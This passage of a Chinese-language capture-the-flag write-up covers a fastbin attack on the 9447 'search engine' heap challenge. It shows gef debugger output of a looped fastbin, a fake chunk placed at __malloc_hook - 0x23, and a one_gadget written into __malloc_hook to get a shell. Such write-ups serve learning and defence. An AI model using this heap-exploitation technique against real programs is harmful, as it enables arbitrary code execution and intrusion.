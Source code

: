 值得一说的是，在进入删除句子流程后，由于对chunk释放前调用了memset，将里面的数据全部置0，导致该chunk指向下一个chunk的fd指针也被清0，因此导致fastbin顶部的那个chunk被剔除出了fastbin中，这个chunk将成为野堆块，在本体中将只能通过搜索单词想办法找到并free，无法通过malloc将其引用到。

整个搜索函数运行完毕后，将构造好一个循环的fastbin链表，此时fastbin情况如下所示：

```shell
Fastbins[idx=0, size=0x10]  ←  Chunk(addr=0xb3a1b0, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0xb3a100, size=0x20, flags=PREV_INUSE)  ←  Chunk(addr=0xb3a020, size=0x20, flags=PREV_INUSE) 
Fastbins[idx=1, size=0x20] 0x00
Fastbins[idx=2, size=0x30] 0x00
Fastbins[idx=3, size=0x40] 0x00
Fastbins[idx=4, size=0x50] 0x00
Fastbins[idx=5, size=0x60]  ←  Chunk(addr=0xb3a2a0, size=0x70, flags=PREV_INUSE)  ←  Chunk(addr=0xb3a370, size=0x70, flags=PREV_INUSE)  ←  Chunk(addr=0xb3a2a0, size=0x70, flags=PREV_INUSE)  →  [loop detected]
Fastbins[idx=6, size=0x70] 0x00
```

在构造好了循环链表后，就是要申请一个相同size的堆块，并且使其fd指针指向`__malloc_hook`附近，这里选取的是`__malloc_hook - 0x23`处，也即libc_base + 0x3c4aed，使用index函数进行构造，得到该chunk处内存如下所示：

```shell
gef➤  telescope 0xb3a2a0
0x0000000000b3a2a0│+0x0000: 0x00007fbfafb97aed  →  0xbfafb96260000000	 ← $r12
0x0000000000b3a2a8│+0x0008: 0x0000000000000000
0x0000000000b3a2b0│+0x0010: 0x0000000000000000
0x0000000000b3a2b8│+0x0018: 0x0000000000000000
0x0000000000b3a2c0│+0x0020: 0x0000000000000000
0x0000000000b3a2c8│+0x0028: 0x0000000000000000
0x0000000000b3a2d0│+0x0030: 0x0000000000000000
0x0000000000b3a2d8│+0x0038: 0x0000000000000000
0x0000000000b3a2e0│+0x0040: 0x0000000000000000
0x0000000000b3a2e8│+0x0048: 0x0000000000000000
```

然后调用两次index函数将两个chunk从fastbin中取出，最后构造的`__malloc_hook`附近的fake_addr作为下一个chunk存在于fastbin里：

```shell
Fastbins[idx=5, size=0x60]  ←  Chunk(addr=0x7fbfafb97afd, size=0x78, flags=PREV_INUSE|IS_MMAPPED|NON_MAIN_ARENA)  ←  [Corrupted chunk at 0xbfaf858e20000010]
```

此时再次调用一次index函数，并将one_gadget的地址写入`__malloc_hook`的地址，这样在下一次调用malloc构建Word结果体时，就会触发`__malloc_hook`的机制，执行`__malloc_hook`所指向的地址处的函数，此时为one_gadget，从而get shell。

触发`__malloc_hook`机制的代码如下：

```c
void *(*hook) (size_t, const void *)
    = atomic_forced_read (__malloc_hook);
  if (__builtin_expect (hook != NULL, 0))
    return (*hook)(bytes, RETURN_ADDRESS (0));
```

至于`one_gadget`的定义与查找工具，可以查看<https://github.com/david942j/one_gadget>，进行学习了解。

## 后记

9447这道题属于在[fastbin_dup_into_stack.c](https://github.com/shellphish/how2heap/blob/master/glibc_2.25/fastbin_dup_into_stack.c)的拓展习题，断断续续分析这道题的exp我花了大概半个月之久，根本原因在于并没有对堆的内存管理有足够清晰的认识就开始做题，再加上调试的时候方法不对导致一直没有看懂别人的exp，在这里感谢某位不愿意透露ID的大佬，是在他的帮助下我才很快弄懂整个exp的执行流程，并对fastbin attack有了较清晰的理解。